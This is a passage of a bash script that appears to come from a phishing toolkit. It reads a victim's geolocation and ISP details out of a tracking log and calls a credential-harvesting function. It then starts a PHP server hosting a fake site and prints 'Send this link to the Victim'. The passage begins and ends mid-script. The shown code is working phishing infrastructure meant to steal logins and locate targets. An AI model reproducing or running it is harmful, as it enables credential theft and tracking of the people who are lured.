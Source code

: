 state=$(grep -o "tracking lessimpt.*" iptracker.log | cut -d "<" -f1 | cut -d ">" -f2)
if [[ $state != "" ]]; then
printf "\e[1;92m[*] State:\e[0m\e[1;77m %s\e[0m\n" $state
fi
##
city=$(grep -o "City Location:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)

if [[ $city != "" ]]; then
printf "\e[1;92m[*] City Location:\e[0m\e[1;77m %s\e[0m\n" $city
fi
##

isp=$(grep -o "ISP:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)
if [[ $isp != "" ]]; then
printf "\e[1;92m[*] ISP:\e[0m\e[1;77m %s\e[0m\n" $isp
fi
##

as_number=$(grep -o "AS Number:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)
if [[ $as_number != "" ]]; then
printf "\e[1;92m[*] AS Number:\e[0m\e[1;77m %s\e[0m\n" $as_number
fi
##

ip_speed=$(grep -o "IP Address Speed:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)
if [[ $ip_speed != "" ]]; then
printf "\e[1;92m[*] IP Address Speed:\e[0m\e[1;77m %s\e[0m\n" $ip_speed
fi
##
ip_currency=$(grep -o "IP Currency:.*" iptracker.log | cut -d "<" -f3 | cut -d ">" -f2)

if [[ $ip_currency != "" ]]; then
printf "\e[1;92m[*] IP Currency:\e[0m\e[1;77m %s\e[0m\n" $ip_currency
fi
##
printf "\n"
rm -rf iptracker.log

getcredentials
}

start() {
if [[ -e sites/$server/ip.txt ]]; then
rm -rf sites/$server/ip.txt

fi
if [[ -e sites/$server/usernames.txt ]]; then
rm -rf sites/$server/usernames.txt

fi

default_ip=$(hostname -I)
printf "\e[1;92m[\e[0m*\e[1;92m] Put your local IP (Default %s): " $default_ip
read ip
ip="${ip:-${default_ip}}"
printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
sudo php -t "sites/$server" -S "$ip:80" > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Send this link to the Victim:\e[0m\e[1;77m %s\e[0m\n" $ip
checkfound
}
checkfound() {
